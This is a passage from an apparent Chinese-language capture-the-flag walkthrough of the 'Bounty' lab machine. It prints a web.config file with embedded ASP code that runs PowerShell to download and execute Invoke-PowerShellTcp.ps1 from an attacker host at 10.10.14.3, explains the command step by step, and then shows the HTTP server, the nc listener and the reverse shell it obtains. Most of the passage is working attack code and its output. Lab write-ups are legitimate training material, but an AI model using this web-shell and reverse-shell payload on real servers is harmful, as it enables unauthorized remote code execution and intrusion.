 ```
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1')")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>

-–>
```

> cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1'：
> 
> 1. cmd.exe /c: 这部分启动了 Windows 命令提示符（cmd.exe）并执行 /c 参数指定的命令。/c 参数告诉 cmd.exe 在执行完指定的命令后关闭命令提示符窗口。
> 2. powershell.exe: 这部分启动了 PowerShell 程序。
> 3. -c: 这是 PowerShell 的参数，表示后面跟着的是一条命令。
> 4. iex(new-object net.webclient).downloadstring('http://10.10.14.3/Invoke-PowerShellTcp.ps1'): 这是 PowerShell 命令。iex 是 Invoke-Expression 的简写，它用于执行从字符串中构建的命令。在这个例子中，iex 用于执行从远程服务器下载的 PowerShell 脚本。new-object net.webclient 创建了一个新的 .NET WebClient 对象，然后 downloadstring 方法用于从指定的 URL 下载字符串（即远程脚本的内容）。整个表达式的目的是下载远程脚本内容。
> 5. 'http://10.10.14.3/Invoke-PowerShellTcp.ps1': 这是远程 PowerShell 脚本的 URL 地址，它将被下载并执行。

>    
>    因此，整个命令的作用是从 http://10.10.14.3/Invoke-PowerShellTcp.ps1 下载 PowerShell 脚本并执行它，从而建立到攻击者控制的远程服务器的 TCP 连接，提供一个交互式的 PowerShell shell。

在本地开启一个http服务，准备传送Invoke-PowerShellTcp.ps1

```
python3 -m http.server 80
```

kali开启监听接收反弹shell

```
nc -lnvp 4242
```

上传以后，打开http://10.10.10.93/uploadedfiles/web.config页面，拿到初始shell

```
root@kali# nc -lnvp 4242              
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```
